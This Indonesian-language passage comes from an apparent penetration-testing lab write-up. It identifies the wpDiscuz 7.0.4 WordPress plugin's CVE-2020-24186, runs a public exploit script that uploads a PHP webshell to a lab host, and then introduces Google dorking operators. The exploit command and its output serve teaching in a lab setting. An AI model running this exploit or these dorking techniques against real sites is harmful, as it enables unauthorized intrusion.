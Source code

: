 2. Mencari kerentanan yang berkaitan dengan versi produk
    
    Dapat diketahui plugin tersebut memiliki versi `7.0.4` yang dimana apabila kita melakukan pencarian lebih lanjut akan diketahui kerentanan yang dimiliki plugin tersebut.

    Kita mendapatkan `CVE-2020-24186` yang dimana plugins wpDiscuz rentan terhadap Remote Code Execution di versi tersebut.

3. Melakukan exploitasi

    Kita dapat melakukan exploitasi secara manual dengan PoC publik yang telah ada, atau menggunakan script yang sudah ada untuk mempermudah exploitasi.

    [Exploit CVE-2020-24186](https://www.exploit-db.com/exploits/49967)

    ```sh
    ──(ery㉿ery)-[~/Learning/Hacktrace/Machine/Artemis]
    └─$ python3 exp.py -u http://artemis.ht/wordpress/ -p /index.php/2023/12/19/hello-world/
    ---------------------------------------------------------------
    [-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
    [-] File Upload Bypass Vulnerability - PHP Webshell Upload
    [-] CVE: CVE-2020-24186
    [-] https://github.com/hevox
    --------------------------------------------------------------- 

    [+] Response length:[96821] | code:[200]
    [!] Got wmuSecurity value: ba4b29aed3
    [!] Got wmuSecurity value: 1 

    [+] Generating random name for Webshell...
    [!] Generated webshell name: rfhtdtkithjfnkq

    [!] Trying to Upload Webshell..
    [+] Upload Success... Webshell path:url&quot;:&quot;http://10.1.2.151/wordpress/wp-content/uploads/2024/04/rfhtdtkithjfnkq-1713193721.8989.php&quot;
    ```

Dengan begitu seorang pentester bisa melakukan exploitasi pada CVE yang sudah ada dengan script maupun PoC (Proof of Concept) yang sudah tersebar di publik.

## Google-Fu
**Google-Fu** atau yang sering disebut sebagai **Google Dorking** merupakan sebuah metode yang digunakan oleh penyerang untuk memperoleh informasi sensitif tentang kerentanan pada aplikasi/sistem yang diindeks oleh Google.

### Google Search Operator
| Operator | Deskripsi |
| :--: | :-- |
| intitle | Mencari keyword berdasarkan judul halaman. |
| intext | Mencari keyword berdasarkan isi konten halaman. |
| filetype / ext | Mencari file berdasarkan extension tertentu. |
| site | Membatasi pencarian ke website tertentu. |
| inurl | Mencari keyword dalam url halaman. |
